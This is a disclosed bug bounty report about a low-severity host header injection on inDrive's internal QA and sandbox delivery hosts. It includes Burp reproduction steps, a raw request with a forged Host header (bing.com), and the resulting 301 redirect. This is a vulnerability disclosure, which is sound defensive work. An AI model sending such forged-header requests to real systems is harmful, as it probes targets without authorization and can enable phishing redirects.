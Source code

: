 # Host Header Injection - internal.qa.delivery.indrive.com

## Report Details
- **Report ID**: 2076786
- **URL**: https://hackerone.com/reports/2076786
- **State**: Closed
- **Severity**: low
- **Submitted**: 2023-07-20T06:49:15.880Z
- **Disclosed**: 2024-02-12T10:42:44.308Z

## Reporter
- **Username**: sid_x95
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: indrive

## Vulnerability Information
HTTP Host header attacks exploit vulnerable websites that handle the value of the Host header in an unsafe way. If the server implicitly trusts the Host header, and fails to validate or escape it properly, an attacker may be able to use this input to inject harmful payloads that manipulate server-side behavior.

Found the host header injection of given URLs:
https://internal.qa.delivery.indrive.com/
https://internal.sandbox.delivery.indrive.com/

## Steps To Reproduce:
1. Intercept the request in burp
3. Change the host name to bing.com

Request:
GET / HTTP/1.1
Host: bing.com
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US,en-GB;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Connection: close
Cache-Control: max-age=0


Response:
HTTP/1.1 301 Moved Permanently
location: https://bing.com/
date: Thu, 20 Jul 2023 06:24:26 GMT
server: istio-envoy
connection: close
content-length: 0

## Impact

An attacker can redirect users to malicious websites, which can lead to phishing attacks.

An attacker can create a valid webpage with malicious recommendations and the user believes the recommendation as it was from the valid website.

## Attachments
- bandicam_2023-07-20_11-54-12-264.mp4
- internal.qa.delivery.indrive.com_host-header-redirect.png
- POC2.png
